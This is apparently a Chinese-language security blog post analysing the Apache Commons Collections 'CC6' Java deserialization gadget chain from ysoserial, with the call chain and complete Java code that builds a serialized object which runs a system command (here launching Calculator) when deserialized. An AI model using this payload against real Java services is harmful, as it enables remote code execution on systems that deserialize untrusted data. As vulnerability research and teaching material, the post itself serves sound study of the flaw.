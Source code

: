 ```yaml
---
title: CC6分析
date: 2022-03-20 00:00:00
permalink: /sec/vuln/deserialization/cc6
author:
 name: p0jo
 link: https://wiki.pwddd.com
titleTag: 原创 # v1.9.0+
categories:
  - 漏洞原理
  - 反序列化漏洞
tags:
  - 反序列化
  - CC
  - ysoserial
---
```


# CC6 利用链分析

## 背景

我们在分析CC1时使用的jdk版本时8u65，如果使用高于8u71版本的jdk则无法利用CC1链。这是因为在高版本的jdk中改进了AnnotationInvocationHandler的readObject方法的利用逻辑。在ysoserial中，CC6解决了高版本jdk无法使用的问题，是ysoserial比较通用和全能的一条链。但是这条利用链还是需要依靠CommonsCollections3.2.2以下的版本。

## 利用链分析

我们在CC1中分析过，ysoserial中使用的LazyMap和我们使用的TransformedMap有一点区别，lazyMap使用的是AnnotationInvokerHandler的invoke方法调用其set方法。而要执行invoke方法需要包装一个动态代理对象。而本次的CC6链同样是调用lazyMap实现的，后面的都是一致的，只是入口到set方法位置不一致。下面是CC6的调用链。

```text
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```



从LazyMap的get开始，向上寻找哪里调用了get方法，并且我们参数可控。根据这条gadget chain，我们找到了TiedMapEntry.getValue方法。在getValue中调用了map的get方法。而map是可以通过有参构造传入的。

![image-20220321135701834](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321135701834.png)

我们尝试构造一下：

```java
package com.pwddd.cc6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.Calendar;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) {

        // 1. chains
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        // lazyMap.get("bbb");
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
        tiedMapEntry.getValue();
        
    }
}
```

上面的代码基本都是类似的，后面使用tiedMapEntity封装了lazyMap，并调用getValue方法。能够执行相应的结果。

![image-20220321140942147](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321140942147.png)



既然到tiedMapEntity这一步能够执行，就需要继续寻找哪里调用了getValue方法。在tiedMapEntity中的hashCode方法中调用了getValue方法。hashCode方法我们已经很熟悉了，在URLDNS中，也是利用了HashMap的hashCode方法。

![image-20220321141259999](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321141259999.png)

那么我再次尝试调用一下：

```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
//        tiedMapEntry.getValue();
tiedMapEntry.hashCode();
```

发现是可以的，那么哪里又调用了hashCode方法，并且调用hashCode的对象我们可以控制呢？

在URLDNS中，我们知道HashMap中的hash方法会对我们传入的key做hash，会掉用key的hashCode方法。因此只需要将tiedMapEntity作为HashMap的key即可。

```java
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry,"bbb");
```

在put时也会弹出计算器，这是因为在hashMap的put方法中也会计算key的hash值，我们可以先不将我们的chainedTransformer封装进去，这样就无法调用了。

```java
Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

Class<LazyMap> clazz = LazyMap.class;
Field factory = clazz.getDeclaredField("factory");
factory.setAccessible(true);
factory.set(lazyMap,transformers);
```

我们尝试将生成的对象序列化之后，再反序列化。仍然无法弹出计算器。我们跟踪一下代码看一下：

![image-20220321160036361](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321160036361.png)

我们看到当执行到这里的时候，map中已经有key为aaa的数据了，那么就不会执行下面的transform方法。因此我们需要把aaa的key移除，这样在反序列化的时候，map里面没有对应的key才可以执行。



完整的代码如下：

```java
public static void main(String[] args) throws Exception {

  // 1. chains
  Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
      "getMethod",
      new Class[]{String.class,Class[].class},
      new Object[]{"getRuntime",null}
    ),
    new InvokerTransformer(
      "invoke",
      new Class[]{Object.class, Object[].class},
      new Object[]{null, null}
    ),
    new InvokerTransformer(
      "exec",
      new Class[]{String.class},
      new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
    )
  };

  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

  HashMap<Object, Object> map = new HashMap<>();
  Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "bbb");
  lazyMap.remove("aaa");

  Field factoryField = LazyMap.class.getDeclaredField("factory");
  factoryField.setAccessible(true);
  factoryField.set(lazyMap,chainedTransformer);


  serialize(hashMap);
  deserialize();
}
```




